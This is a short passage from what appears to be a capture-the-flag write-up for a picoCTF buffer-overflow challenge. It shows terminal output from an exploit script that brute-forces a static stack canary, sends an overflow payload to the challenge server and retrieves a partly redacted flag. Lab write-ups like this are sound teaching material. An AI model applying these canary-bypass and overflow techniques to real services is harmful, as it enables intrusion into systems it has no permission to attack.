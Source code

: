 {% ccb html:true wrapped:true terminal:true %}
<span class="meta prompt_">$ </span>python3 buffer-overflow-3.py
[<span style="color:#47D4B9"><b>+</b></span>] Finding canary: 'BiRd'
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port 57427: Done
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (162B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to saturn.picoctf.net port 57427
[<span style="color:#47D4B9"><b>+</b></span>] aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaBiRdraaasaaataa-
auaaa6^H
    Ok... Now Where&apos;s the Flag?
    picoCTF{Stat1C_c4n4r13s_4R3_b4D_<span style="color:#696969"><b>[REDACTED]</b></span>}
{% endccb %}

We've successfully performed a brute force on a vulnerable static canary!

{% flagcounter %}